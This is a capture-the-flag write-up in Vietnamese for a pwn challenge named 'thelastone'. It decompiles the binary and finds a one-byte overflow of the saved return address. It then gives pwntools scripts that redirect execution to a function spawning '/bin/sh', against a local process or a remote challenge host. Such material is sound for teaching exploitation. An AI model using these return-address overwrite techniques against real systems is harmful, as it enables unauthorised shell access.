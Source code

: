 Giờ ta sẽ nhìn qua file binary được cung cấp và các chế độ bảo vệ

![image](https://user-images.githubusercontent.com/114044703/213367728-dafb94f9-c705-49e2-891e-7b2a13b4f3e8.png)

![image](https://user-images.githubusercontent.com/114044703/213367995-43053f96-fc31-43a1-b767-c310ce9ba96c.png)

Ta sẽ kiểm tra hàm main bằng trình ghidra:

```
void main(EVP_PKEY_CTX *param_1)

{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  uint local_14;
  int local_10;
  int local_c;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_c = 10;
  init(param_1);
  local_10 = open("/dev/urandom",0);
  if (-1 < local_10) {
    read(local_10,&local_14,4);
    close(local_10);
    srand(local_14);
    do {
      menu();
      __isoc99_scanf(&DAT_0040227c,&local_18);
      getchar();
      switch(local_18) {
      default:
        puts("Unknown option!");
        break;
      case 1:
        set_name(&local_38);
        break;
      case 2:
        get_name(&local_38);
        break;
      case 3:
        find_food();
        break;
      case 4:
        kill_zombie(local_c);
        local_c = local_c + -1;
        break;
      case 5:
        find_survivor();
        break;
      case 6:
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
    } while( true );
  }
  puts("Cannot open urandom");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Khi đi sâu vào các hàm con:

set_name chỉ đơn thuần lấy tên từ bàn phím:

![image](https://user-images.githubusercontent.com/114044703/213368593-7e9fec1c-76ec-4e23-8cf8-410adf341daf.png)

get_name thì in ra tên nếu ta đã chọn tên:

![image](https://user-images.githubusercontent.com/114044703/213368616-9ac27f78-7a25-4efe-b324-43caf92b2096.png)
  
 In ra chuỗi

![image](https://user-images.githubusercontent.com/114044703/213368700-f8b9551f-3cff-4542-b24d-2a3fb8b8914e.png)

In ra số zombies(giảm dần)

![image](https://user-images.githubusercontent.com/114044703/213368714-a30f6097-d69c-43ad-b778-8d862b7e1d25.png)

Ở hàm find_survivor thì  nếu số random khác 0 thì ho ta nhập 0x58 từ bàn phím 

![image](https://user-images.githubusercontent.com/114044703/213369340-4bdfe4cd-f732-4835-8351-662220f94a39.png)

Thoạt nhìn thì đây là lỗi buffer over flow khi ```local_58``` chỉ có 76 phần tử nhưng để đè save rip lại không thể đè được khi offset của nó đồng thời là 0x58

![image](https://user-images.githubusercontent.com/114044703/213369599-6b950009-990a-45b0-b60b-f68f05e6eb06.png)

Tuy nhiên khi đi sâu vào hàm read_str thì có vẻ như là hàm đã đọc 0x58 + 1 byte -> ta có thể điều khiển được 1 byte của save rip -> Có khả năng cao đây là bài dạng ret2win

Ta thấy có hàm unknown có lệnh system("/bin/sh ") ta đang cần và có để dẫn tới được:

![image](https://user-images.githubusercontent.com/114044703/213370103-49eeeb96-e11c-4e6b-a462-efd679107fa5.png)

Tiến hành vào debug, ta đặt break point tại ret của find_survivor xem có thể dẫn sang địa chỉ unknow không:




Vậy ta có thể dẫn sang unknown là ```0x401667```

Viết khai thác với những dữ kiện trên:
```
from pwn import *
debug=1

if debug:
 	t=process("./thelastone")
 	gdb.attach(t,api=True)
else:
	t=remote("146.190.115.228",9995)
	#context.log_level = 'debug'
for i in range (5):             #lặp lại đến khi tìm được người sống sót
	t.sendlineafter(b">",b"5")
	data=t.recvline()
	if b"Nice, you found another survivor. Let's make friend with her now!\n" in data:
		break
	
t.sendafter(b">",b"A"*88+b"\x67")
t.interactive()

```

Khi thực thi có vẻ như đã có lỗi thanh ghi xmm0 khi địa chỉ rsp không đủ đk:

![image](https://user-images.githubusercontent.com/114044703/213371066-1019beb6-4b9c-453c-879d-13d026aaa257.png)

Thay thì nhảy ngay tại hàm unknown ta sẽ nhảy tới unknown +5(nhảy qua đoạn ```push rbp```) để địa chỉ rsp hợp lệ 

```
from pwn import *
debug=1

if debug:
 	t=process("./thelastone")
 	gdb.attach(t,api=True)
else:
	t=remote("146.190.115.228",9995)
	#context.log_level = 'debug'
for i in range (5):             #lặp lại đến khi tìm được người sống sót
	t.sendlineafter(b">",b"5")
	data=t.recvline()
	if b"Nice, you found another survivor. Let's make friend with her now!\n" in data:
		break
	
t.sendafter(b">",b"A"*88+b"\x6c")   #unknow+5
t.interactive()

```

Sau khi thực thi :

![image](https://user-images.githubusercontent.com/114044703/213371524-7d7bc2f8-ea3e-43eb-af97-9c86c540c1a5.png)




